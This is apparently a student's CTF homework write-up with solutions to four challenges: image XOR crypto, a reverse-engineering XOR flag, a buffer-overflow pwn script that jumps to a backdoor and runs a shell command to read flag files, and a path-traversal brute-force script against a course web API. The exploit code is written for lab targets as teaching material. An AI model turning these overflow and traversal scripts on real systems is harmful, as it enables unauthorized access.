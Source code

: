 # HW0 Writeups - nella17

## [HW0] to bf or not to bf `Crypto` [50]

`encrypt` use randint with same seed to xor image, xor two image to get flag.

```python
import cv2

flag = cv2.imread('flag_enc.png', cv2.IMREAD_GRAYSCALE)
golem = cv2.imread('golem_enc.png', cv2.IMREAD_GRAYSCALE)

h, w = flag.shape
for i in range(h):
    for j in range(w):
        flag[i][j] ^= golem[i][j]

cv2.imwrite('xor.png', flag)
```

<img src="./[HW0] to bf or not to bf/xor.png" alt="xor" style="zoom:45%;" />

<div style="page-break-after: always;"></div>
## [HW0] XAYB `Rev` [50]

### Sol1

Copy encrypted data from binary, restore flag with little endian and xor.

```python
from pwn import p64, pack

enc = b''
enc += p64(0x9DC2A589B5B3BEB4)
enc += p64(0xA7C2ABADA5B3A5AD)
enc += p64(0xB99184BEADC2C7AD)
enc += p64(0xAD9A91869385AD8B)
enc += p64(0xCBC6A4B0BEADAD84)
enc += pack(0xB7B0A2A6)
enc += pack(0x8F95)
enc = enc.strip(b'\0')

flag = bytes(c ^ 0xf2 for c in enc).decode()
print(flag)
```

### Sol2

Patch `jnz short loc_156D` at `0x0151C` to bypass check.

![](./[HW0] XAYB/run.png)

<div style="page-break-after: always;"></div>
## [HW0] Arch Check `Pwn` [50]

Just overflow, overwrite return address.

```python
from pwn import *

HOST, PORT = 'up.zoolab.org', 30001

exe = context.binary = ELF('./arch_check')

if args.REMOTE:
    io = remote(HOST,PORT)
else:
    env = {}
    io = process(exe.path)
    pause()

backdoor = 0x4011DD
payload = flat({ 0x28: backdoor })
io.sendline(payload)

# io.interactive()

io.clean(1)
io.sendline('cat /home/`whoami`/flag*')
flag = io.readuntil('}').strip()
success(flag)
```

<div style="page-break-after: always;"></div>
## [HW0] text2emoji `Web` [50]

Path traversal to access `/looksLikeFlag` endpoint, and brute force to get flag.
[ASIS CTF Finals 2018 (balsn.tw)](https://balsn.tw/ctf_writeup/20181124-asisctffinal/#proxy-proxy)

```python
from multiprocessing.pool import Pool
from multiprocessing import freeze_support
from time import time
def multi(func, init_list, processes = 16, debug = False):
    freeze_support()
    with Pool(processes) as pool:
        start = time()
        outputs = pool.starmap(func, init_list)
        outputs = [x for x in outputs if x]
        end = time()
        if debug: print('used time: {}'.format(end-start))
    return outputs

import requests
import json
import string

def send(flag):
    res = requests.post(
        url = "http://splitline.tw:5000/public_api",
        headers = { "Content-Type": "application/json" },
        data = json.dumps({ "text": f"%2e%2e/looksLikeFlag?flag={flag}" })
    )
    return res.json()['looksLikeFlag']

# /^FLAG{[a-z0-9_]+}$/
flag = 'FLAG{'
charset = string.ascii_lowercase + string.digits + '_' + '}'

def wrap(t):
    if send(t):
        return t

def main():
    global flag
    while '}' not in flag:
        flag = multi(wrap, [(flag+c,) for c in charset], len(charset))[0]
        print(flag)

if __name__ == '__main__':
    main()
```

